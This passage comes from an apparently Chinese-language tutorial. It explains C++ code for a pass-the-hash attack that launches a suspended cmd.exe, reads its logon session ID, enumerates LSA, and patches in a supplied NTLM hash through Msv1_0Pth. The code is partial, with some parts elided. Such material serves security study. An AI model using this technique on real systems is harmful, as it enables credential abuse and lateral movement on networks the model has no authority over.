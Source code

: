 ```c++
					{
						wprintf(L"      |  LogonId  %u:%u (%08x:%08x)\n", pthData.LogonId->HighPart, pthData.LogonId->LowPart, pthData.LogonId->HighPart, pthData.LogonId->LowPart);
						status = EnumerateLSA(&pthData);
						
						if (status && pthData.isReplaceOk)
						{
							status = NT_SUCCESS(NtResumeProcess(processInformations.hProcess));
						}
						else NtTerminateProcess(processInformations.hProcess, STATUS_PROCESS_IS_TERMINATING);
					}
					else wprintf(L"[-] GetTokenInformation error");
					CloseHandle(hToken);
				}
				else wprintf(L"[-] OpenProcessToken error");
				CloseHandle(processInformations.hThread);
				CloseHandle(processInformations.hProcess);
			}
			else wprintf(L"[-] CreateProcessWithLogonW error");
		}
	}
	return status;
}
```

在该函数内部，首先定义了一个名为 `pthData` 变量，这是一个 `LSA_PTH_DATA` 结构体，用于存储后续哈希传递需要用到的数据，其定义如下。

```c++
typedef struct _LSA_PTH_DATA {
	PLUID		LogonId;
	LPBYTE		NtlmHash;
	BOOL		isReplaceOk;
} LSA_PTH_DATA, * PLSA_PTH_DATA;
```

接着，将命令行中获取到的 NTLM 值调用 `StringToHex()` 函数，将其从字符串转换为 BYTE 格式，并保存到 `pthData.NtlmHash` 中。

如果设置了 `lpUsername` 参数，则使用 `CreateProcessWithLogonW()` 函数启动一个新的 `cmd.exe` 进程，并指定 `CREATE_SUSPENDED` 创建标志使该进程处于挂起状态。`processInformations` 变量用于接收新进程的标识信息，包括进程的句柄。

调用 `OpenProcessToken()` 函数打开新进程的访问令牌的句柄，并使用 `GetTokenInformation()` 函数检索访问令牌的统计信息，在统计信息中获取 `AuthenticationID` 值保存到 `pthData.LogonId` 中，该值指定分配给此令牌代表的登录会话的 LUID。

然后进入 `EnumerateLSA()`，开始复杂的 LSA 信息枚举，包括枚举 `LogonSessionList` 链表中的用户登录会话信息以及提取 BCrypt 密钥和初始化向量，具体方法与 ”MSV“ 节中的完全相同，因此不再赘述。唯一不同的是，枚举完 LSA 信息后，由 `EnumerateLSA()` 函数调用 `Msv1_0Pth()` 函数，如下所示。

```c++
BOOL EnumerateLSA(PLSA_PTH_DATA pPthData)
{
	// ...

	status = AcquireLSA();

	if (status)
	{
		// ...

		Msv1_0Pth(&sessionData, pPthData);

		// ...
	}
	return status;
}
```
